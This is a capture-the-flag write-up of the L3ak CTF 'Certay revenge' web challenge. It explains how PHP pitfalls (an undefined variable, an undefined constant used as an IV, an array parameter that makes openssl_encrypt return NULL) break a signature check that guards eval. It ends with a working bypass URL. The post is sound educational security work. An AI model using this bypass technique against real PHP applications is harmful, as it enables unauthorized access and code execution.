 ```yaml
---
title:  "Certay revenge Web Challenge - From L3ak CTF"
description: Web challenge from L3ak CTF, a simple note-taking system with user authentication, where the goal is to bypass the required hash using PHP language pitfalls.
image: 
  path: /assets/img/blog/blackhat/wolv_black_hat.jpg
tags: [ctf, web, php, AES, pitfalls]
date:   2025-07-15 13:49:56 +0300
categories: [CTFs]
---
```

**Last Modified: 2025-07-14 06:51**

> Probably you need to understand our language to get some of the super powers?

The challenge mainly is about spotting pitfalls of PHP to be able to bypass bypass the required hash.

The web application is a simple note-taking system with user authentication:

1. **User Registration/Login**: Users can register and login via register.php and login.php
2. **Session Management**: PHP sessions track logged-in users with `$_SESSION['user_id']`
3. **Note Storage**: Users can store private notes via post_note.php
4. **Dashboard Access**: dashboard.php displays notes after signature verification

### Normal Authentication Flow
```php
// Login creates session
$_SESSION['user_id'] = $user_id;
$_SESSION['yek'] = openssl_random_pseudo_bytes(16); // 16-byte session key

// Dashboard requires both session AND signature verification
if (!isset($_SESSION['user_id'])) {
    header('Location: login.php');
    exit;
}

// Additional signature check for sensitive operations
if (custom_sign($_GET['msg'], $yek, safe_sign($_GET['key'])) === $_GET['hash']) {
    // Execute stored notes via eval()
}
```

### Encryption Implementation
#### Encryption Functions
```php
function safe_sign($data) {
    return openssl_encrypt($data, 'aes-256-cbc', KEY, 0, iv);
}

function custom_sign($data, $key, $vi) {
    return openssl_encrypt($data, 'aes-256-cbc', $key, 0, $vi);
}
```
#### Signature Verification Logic
```php
if (custom_sign($_GET['msg'], $yek, safe_sign($_GET['key'])) === $_GET['hash']) {
    // Authentication successful - execute user notes
    eval($content);
}
```
**How it's supposed to work:**

1. `safe_sign($_GET['key'])` encrypts user input with server's secret `KEY`
2. Result becomes IV for `custom_sign()`
3. `custom_sign()` encrypts `$_GET['msg']` using session key `$yek`
4. Final result must match `$_GET['hash']`

The app takes three parameters and do that :
![alt text](<../assets/img/blog/attachments-certay/Pasted image 20250716130912.png>)


## Exploit Chain
### PHP Language Pitfalls Exploited
#### Undefined Constant Behavior
```php
<?php
define('yek', $_SESSION['yek']);

// Later in code:
custom_sign($_GET['msg'], $yek, safe_sign($_GET['key'])) === $_GET['hash']
```

**Pitfall**: `$yek` (variable) vs `yek` (constant)

- **Expected**: `$yek` should reference the constant `yek`
- **Reality**: `$yek` is an undefined variable, defaults to `null`, if you want to use the defined value you should use `yek` instead of `$yek`
- **Impact**: Encryption key becomes empty string instead of 16-byte session key (as the second parameter to `custom_sign() is the encryption key.)

####  Undefined Constant String Conversion

```php
return openssl_encrypt($data, 'aes-256-cbc', KEY, 0, iv);
```

**Pitfall**: `iv` constant is never defined

- **Expected**: `iv` should be a defined constant
- **Reality**: PHP converts undefined constant to string `"iv"`. so the `iv` will become literally "iv"
- **Impact**: IV becomes predictable 2-byte string instead of random 16 bytes
####  OpenSSL IV Padding Behavior (it's not a pitfall)

```php
openssl_encrypt($data, 'aes-256-cbc', KEY, 0, "iv");
```
 AES-256-CBC requires exactly 16-byte IV

- **Input**: `"iv"` (2 bytes)
- **OpenSSL behavior**: Pads with null bytes to 16 bytes
- **Result**: `"iv\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"` (predictable)
#### 4. Array Parameter Handling

```php

if (isset($_GET['msg']) && isset($_GET['hash']) && isset($_GET['key'])) {

    if (custom_sign($_GET['msg'], $yek, safe_sign($_GET['key'])) === $_GET['hash']) {
```

**Pitfall**: `openssl_encrypt()` expects string, receives array

- **Input**: `key[]` creates `$_GET['key'] = []` (empty array)
- **OpenSSL behavior**: Returns :

```
Warning: openssl_encrypt() expects parameter 1 to be string, array given in /home/user/scripts/code.php on line 7
NULL
```
![alt text](<../assets/img/blog/attachments-certay/Pasted image 20250716132852.png>)

- **Impact**: 

```php
// URL: dashboard.php?key[]

// Creates: $_GET['key'] = []

// Results in: safe_sign([]) → NULL

// Then: custom_sign($_GET['msg'], $yek, NULL)
// yek is also empty, we showed that previously

```

*The Real Signature Check is* :
```php
custom_sign($_GET['msg'], $yek, safe_sign($_GET['key'])) === $_GET['hash']
```
but with such behaviors it becomes:
```php

custom_sign($_GET['msg'], null, NULL) === $_GET['hash']
``` 
which is :
```php
openssl_encrypt($_GET['msg'], 'aes-256-cbc', '', 0, NULL) === $_GET['hash']
```
**How NULL is Handled as IV**

When `NULL` which is `$yek` is passed as the IV parameter:

- **PHP converts `NULL` to empty string `""`**
- **OpenSSL pads empty string to 16 bytes with null bytes**
- **Effective IV becomes 16 null bytes**
*To make sure of this behavior i created this test:*

```php

// Test the actual behavior

$result1 = openssl_encrypt("test", 'aes-256-cbc', '', 0, NULL);

$result2 = openssl_encrypt("test", 'aes-256-cbc', '', 0, false);

$result3 = openssl_encrypt("test", 'aes-256-cbc', '', 0, "");

  

echo "NULL IV: " . $result1 . "\n";

echo "false IV: " . $result2 . "\n";

echo "empty string IV: " . $result3 . "\n";

?>

output :
NULL IV: 2HB5iFgiP0Vk00CxA/ZSew==

false IV: 2HB5iFgiP0Vk00CxA/ZSew==

empty string IV: 2HB5iFgiP0Vk00CxA/ZSew==
```

**So now all i need making these nested conditions returns true :**

```php
if (isset($_GET['msg']) && isset($_GET['hash']) && isset($_GET['key'])) {

    if (custom_sign($_GET['msg'], $yek, safe_sign($_GET['key'])) === $_GET['hash']) {
```

**All parameters now predictable:**

- **Message**: `$_GET['msg']` (user controlled)
- **$yek** : Empty
- **safe_sign($\_GET['key']))**: `''` (empty string from null, it's NULL because of `GET['key'` is set to `key[]` )

### Exploit

```
http://server/dashboard.php?msg=test&key[]=&hash=2HB5iFgiP0Vk00CxA%2FZSew%3D%3D
```

![Getting the Flag](<../assets/img/blog/attachments-certay/Screenshot 2025-07-14 161837.png>)
